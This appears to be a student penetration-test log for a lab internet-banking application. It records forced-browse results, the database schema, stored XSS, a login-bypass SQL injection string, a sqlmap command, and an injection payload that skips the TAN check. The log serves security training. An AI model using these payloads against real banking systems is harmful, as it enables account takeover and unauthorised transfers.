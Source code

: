 # Vulnerability log for Team 4

## Directory structure

### Using ZAP

#### Forced Browse
With a forced browse on /InternetBanking/, we get a quite long list of files. As some PHP files do not have the .php file suffix, they get downloaded instead. Also, the source code for the parser is included in the directory.

```
http://nuc:8085/InternetBanking/
http://nuc:8085/InternetBanking/DataAccess/
http://nuc:8085/InternetBanking/auth/
http://nuc:8085/InternetBanking/client/
http://nuc:8085/InternetBanking/controller/
http://nuc:8085/InternetBanking/controller/clientController.php
http://nuc:8085/InternetBanking/controller/clientFunctions.inc
http://nuc:8085/InternetBanking/controller/employeeController.php
http://nuc:8085/InternetBanking/controller/employeeFunctions.inc
http://nuc:8085/InternetBanking/controller/loginController.php
http://nuc:8085/InternetBanking/controller/logoutController.php
http://nuc:8085/InternetBanking/controller/registrationController.php
http://nuc:8085/InternetBanking/css/
http://nuc:8085/InternetBanking/css/bootstrap-theme.css
http://nuc:8085/InternetBanking/css/bootstrap-theme.css.map
http://nuc:8085/InternetBanking/css/bootstrap-theme.min.css
http://nuc:8085/InternetBanking/css/bootstrap.css
http://nuc:8085/InternetBanking/css/bootstrap.css.map
http://nuc:8085/InternetBanking/css/bootstrap.min.css
http://nuc:8085/InternetBanking/employee/
http://nuc:8085/InternetBanking/fonts/
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.eot
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.svg
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.ttf
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff2
http://nuc:8085/InternetBanking/index/
http://nuc:8085/InternetBanking/js/
http://nuc:8085/InternetBanking/js/bootstrap.js
http://nuc:8085/InternetBanking/js/bootstrap.min.js
http://nuc:8085/InternetBanking/js/npm.js
http://nuc:8085/InternetBanking/login/
http://nuc:8085/InternetBanking/logout/
http://nuc:8085/InternetBanking/model/
http://nuc:8085/InternetBanking/model/Payment.class
http://nuc:8085/InternetBanking/model/PaymentRequest.class
http://nuc:8085/InternetBanking/model/User.class
http://nuc:8085/InternetBanking/model/UserRequest.class
http://nuc:8085/InternetBanking/parser/
http://nuc:8085/InternetBanking/parser/Makefile
http://nuc:8085/InternetBanking/parser/exec
http://nuc:8085/InternetBanking/parser/main.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.h
http://nuc:8085/InternetBanking/registration/
http://nuc:8085/InternetBanking/view/
http://nuc:8085/InternetBanking/view/account.inc
http://nuc:8085/InternetBanking/view/accounts.inc
http://nuc:8085/InternetBanking/view/approvepayments.inc
http://nuc:8085/InternetBanking/view/approveregistrations.inc
http://nuc:8085/InternetBanking/view/client.inc
http://nuc:8085/InternetBanking/view/employee.inc
http://nuc:8085/InternetBanking/view/file.inc
http://nuc:8085/InternetBanking/view/history.inc
http://nuc:8085/InternetBanking/view/historypdf.inc
http://nuc:8085/InternetBanking/view/login.inc
http://nuc:8085/InternetBanking/view/online.inc
http://nuc:8085/InternetBanking/view/registration.inc
```

### Noted behaviour

This list is very incomplete.

```
login.php - Login page and login execution
  Executes login when username and password specified in POST.

registration.php
  POST username=a1&email=&password=Aa1234%2F&passwordconf=Aa1234%2F&accounttype=client

client.php - Client sites
  GET action=account,history,historypdf,online,file
  Online: POST receipt=t1&amount=1&purpose=fdsgfdsg&trancode=r3bIvzE9JFLWpDd

employee.php - Employee main site
  GET action=accounts,approvepayments,approveregistrations,history,historypdf
  Approve regs: POST requestid, approve={reject,approve}
  History, history PDF: GET account

logout.php - Logout
```

## Database structure

With the brute force script, we get the following results:

```
Table payment: id, trancode, payer, receipt, amount, purpose
Table user: id, balance, email, username, password, isemployee
Table userrequest: id, email, username, password, isemployee
Table paymentrequest: id, trancode, payer, receipt, amount, purpose
Table trancode: id, clientid
```

## Login

### Using ZAP

#### Stored XSS Vulnerabilities

In registration: Fuzz the username using "jbrofuzz / XSS / XSS 101"
This can also be applied to the transaction description.

Consequence: The site of an employee can be completely destroyed, or one can ask for username and password of the employee with a rebuilt login form, etc.


#### SQL injection

In login: Fuzz the username using "jbrofuzz / SQL Injection / SQL Injection"
The last entry (  anything' OR 'x'='x  ) will login the attacker as "anything" (if the user exists) or as the first user where the password matches.

## Transaction HTML form

### Using SQLmap

Attacking the transaction form did not lead to any vulnerabilities from SQLmap:

```
sqlmap -u 'http://vm/InternetBanking/client.php?action=online' --data='receipt=t1&amount=1&purpose=sqli&tancode=te' --level=5 --risk=3 --text-only --cookie='PHPSESSID=8fqb4ba3cd322t4u13k1g2qhv4'
```

## File upload

### Manual testing
not, because the tools wouldn't be able to do that, but because the things are too special for general tools.

Note that stacked SQL queries appear to be not supported.

It looks like SQL errors end up in an immediate program exit, so we don't get "success" or "fail" displayed, except in the comment entry where success is always displayed. To check, one has to go to the history page and check whether the transaction appears there.

#### Finding database columns

Append  `" GROUP BY <colname> HAVING "1"="1`. It will say nothing, if the column does not exist.


#### Perform transaction without TAN (SQL injection)

In the TAN line, the parser apparently stops scanning the line after the first whitespace. This makes things more difficault, but not impossible:

```
"OR(NOT(`id`IN(SELECT`id`FROM`payment`)))AND"x"="x
```

This was found by manual testing and will use any unused TAN of any user. Potentially, the TANs of all users could be compromised.
